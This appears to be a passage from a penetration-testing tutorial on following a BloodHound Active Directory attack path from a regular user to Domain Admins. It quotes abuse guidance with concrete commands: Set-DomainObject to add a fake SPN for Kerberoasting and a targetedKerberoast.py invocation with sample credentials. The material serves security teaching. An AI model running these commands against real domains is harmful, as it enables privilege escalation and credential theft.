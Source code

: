 **Scenario:** You found this path:

```
JOHN.DOE@CORP.LOCAL
  ↓ MemberOf
IT-SUPPORT@CORP.LOCAL
  ↓ GenericWrite
HELPDESK-ADMIN@CORP.LOCAL
  ↓ MemberOf
SERVER-ADMINS@CORP.LOCAL
  ↓ AdminTo
FILE-SERVER01.CORP.LOCAL
  ↓ HasSession
DA-ADMIN@CORP.LOCAL
  ↓ MemberOf
DOMAIN ADMINS@CORP.LOCAL
```

#### Breaking Down Each Relationship:

**Relationship 1: MemberOf (JOHN.DOE → IT-SUPPORT)**
- **Type:** Group membership
- **Exploitable:** No (informational)
- **Action:** None required (we already have this access)
- **Notes:** This is our starting point

---

**Relationship 2: GenericWrite (IT-SUPPORT → HELPDESK-ADMIN)**
- **Type:** ACL-based permission
- **Exploitable:** YES ✓
- **What it means:** IT-Support group can modify ANY property on helpdesk-admin user account

**Click on the edge (arrow) to see exploitation details:**

```
Help Panel Shows:
─────────────────────────────────────
GenericWrite

The IT-SUPPORT@CORP.LOCAL group has GenericWrite permissions on the 
HELPDESK-ADMIN@CORP.LOCAL user. This means members of IT-SUPPORT can 
modify any non-protected property on the target user.

Abuse Info:
You can abuse this by:
1. Adding an SPN to the user, making it Kerberoastable
2. Modifying the user's scriptPath to execute code
3. Changing the user's logon script

Windows Abuse:
Set-DomainObject -Identity helpdesk-admin -Set @{serviceprincipalname='HTTP/fake'}

Linux Abuse:
python3 targetedKerberoast.py -d corp.local -u john.doe -p Password123
─────────────────────────────────────
```
